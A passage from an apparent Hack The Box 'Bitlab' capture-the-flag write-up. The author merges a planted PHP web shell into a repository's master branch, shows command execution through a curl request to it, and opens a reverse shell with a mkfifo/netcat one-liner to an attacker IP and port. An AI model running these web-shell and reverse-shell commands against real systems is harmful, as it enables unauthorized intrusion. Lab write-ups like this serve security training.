![Bitlab/Untitled%209.png](/assets/images/Bitlab/Untitled%209.png)

And then Accepting the merge request to Master.

![Bitlab/Untitled%2010.png]/assets/images/(Bitlab/Untitled%2010.png)

Looking at master branch now it had my script.

![Bitlab/Untitled%2011.png](/assets/images/Bitlab/Untitled%2011.png)

Now I have RCE on the server

    root@kali:~/files/htb/boxes/bitlab# curl http://10.10.10.114/profile/yuns.php?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

using this reverse shell i got my first shell.

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.172 9001 >/tmp/f
